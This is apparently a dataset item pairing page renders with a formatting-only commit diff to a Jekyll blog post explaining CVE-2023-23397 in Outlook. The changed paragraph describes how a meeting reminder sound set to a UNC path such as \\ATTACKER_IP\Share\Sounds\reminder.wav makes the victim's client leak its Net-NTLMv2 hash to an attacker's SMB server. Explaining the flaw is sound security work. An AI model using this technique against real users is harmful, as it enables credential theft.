

Before and after one commit to s5dev/s5dev.github.io, a Jekyll site: the page built from _posts/2023-03-25-CVE-2023-23397-vulnerability-deep-dive-and-poc.md, in a window 1280 px wide and 900 px high, scrolled down 463 px. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; grey boxes are pictures that could not be loaded.

Commit message:
fix mobile issue

```diff
--- a/_posts/2023-03-25-CVE-2023-23397-vulnerability-deep-dive-and-poc.md
+++ b/_posts/2023-03-25-CVE-2023-23397-vulnerability-deep-dive-and-poc.md
@@ -16,7 +16,7 @@
 
 > TLDR: When the Malicious scheduled appointment email sent by attacker lands in the Victims Outlook Client, the client leaks the Net-NTLMv2 Credential Hash to the Attacker controlled SMB Server with Zero Interaction on Victim side
 
-Outlook Windows desktop client feature allows to schedule appointment, send emails from the desktop. However, Appointment Scheduling allows `sender` to set a `custom reminder sound`. The surprise fact here is that this custom reminder sound file can be loaded from shared network (UNC Path), for example, `\\ATTACKER_IP\Share\Sounds\reminder.wav` which specifically uses SMB v2 (Probably) protocol. So, When the sender aka `attacker` sets the Outlook Appointment Reminder sound to `UNC path` (Universal naming convention path) the receiver Outlook client accepts the meeting and adds to the Calendar. When the Appointment duration approaches and Outlook starts reminding the receiver or `victim` the Outbound call is made from the victim machine to Attacker controlled UNC Path to load the custom reminder sound (say ringtone). The plot twist is this SMB Negotiation between the `victim outlook client` and attacker controlled SMB server actually leaks the victims Net-NTLMv2 Credential hash to the attacker.
+Outlook Windows desktop client feature allows to schedule appointment, send emails from the desktop. However, Appointment Scheduling allows `sender` to set a `custom reminder sound`. The surprise fact here is that this custom reminder sound file can be loaded from shared network (UNC Path), for example, \\ATTACKER_IP\Share\Sounds\reminder.wav which specifically uses SMB v2 (Probably) protocol. So, When the sender aka `attacker` sets the Outlook Appointment Reminder sound to `UNC path` (Universal naming convention path) the receiver Outlook client accepts the meeting and adds to the Calendar. When the Appointment duration approaches and Outlook starts reminding the receiver or `victim` the Outbound call is made from the victim machine to Attacker controlled UNC Path to load the custom reminder sound (say ringtone). The plot twist is this SMB Negotiation between the `victim outlook client` and attacker controlled SMB server actually leaks the victims Net-NTLMv2 Credential hash to the attacker.
 
 ![CVE-2023-23397-Sequential-diagram-to-understand-exploit](/assets/media/CVE-2023-23397-sequential-diagram.png)
 
```
